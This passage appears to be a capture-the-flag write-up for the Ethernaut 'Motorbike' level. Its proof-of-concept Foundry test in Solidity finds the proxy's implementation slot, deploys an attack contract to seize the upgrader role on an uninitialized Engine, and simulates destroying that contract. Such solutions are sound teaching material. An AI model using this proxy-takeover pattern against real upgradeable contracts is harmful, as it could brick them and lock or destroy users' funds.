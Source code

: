 ## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/25-Motorbike.t.sol))

```solidity

        Engine engine = Engine(
            address(
                uint160(
                    uint256(
                        vm.load(
                            address(levelAddress),
                            0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc
                        )
                    )
                )
            )
        );

        // 1. Creation of `MotorbikeAttack` contract - Attacker creates `MotorbikeAttack` contract providing the address of the `Engine` contract.
        MotorbikeAttack motorbikeAttack = new MotorbikeAttack(address(engine));

        emit log_named_address(
            "Address of attacker contract: ",
            address(motorbikeAttack)
        );

        emit log_string(
            "--------------------------------------------------------------------------"
        );
        emit log_named_address(
            "Address of the upgrader before attack: ",
            engine.upgrader()
        );

        // 2. Calling the `attack()` function - Attacker calls the `attack()` function in the `MotorbikeAttack` contract.
        motorbikeAttack.attack();

        emit log_named_address(
            "Address of the upgrader after attack: ",
            engine.upgrader()
        );

        emit log_string(
            "--------------------------------------------------------------------------"
        );

        // Test assertion
        assertEq(engine.upgrader(), address(motorbikeAttack));

        // selfdestruct has no effect in test
        // https://github.com/foundry-rs/foundry/issues/1543
        vm.etch(address((engine)), hex"");
```
